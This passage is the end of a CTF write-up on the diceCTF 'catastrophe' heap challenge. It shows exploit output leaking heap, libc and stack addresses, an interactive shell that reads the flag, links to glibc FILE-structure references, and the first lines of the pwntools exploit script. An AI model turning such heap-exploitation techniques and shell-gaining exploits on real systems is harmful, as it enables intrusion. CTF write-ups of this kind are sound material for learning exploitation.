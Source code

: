 And here we are:
```
nasm@off:~/Documents/pwn/diceCTF/catastrophe/f2$ python3 sexploit.py REMOTE HOST=mc.ax PORT=31273
[*] '/home/nasm/Documents/pwn/diceCTF/catastrophe/f2/catastrophe'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mc.ax on port 31273: Done
/home/nasm/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] heap @ 0x559cb0184000
[*] libc: 0x7efe8a967000
[*] environ: 0x7efe8ab88200
[*] stdout: 0x7efe8ab81780
[*] stack: 0x7ffe06420710
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
hope{apparently_not_good_enough_33981d897c3b0f696e32d3c67ad4ed1e}
```

## Resources
- [a1ex.online](https://a1ex.online/2020/10/01/glibc-IO%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)
- [ray-cp](https://ray-cp.github.io/archivers/IO_FILE_arbitrary_read_write)
- [Mutepig's Blog](http://blog.leanote.com/post/mut3p1g/file-struct)

## Appendices

Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF('catastrophe')
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
pwn.context.timeout = 2000

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
```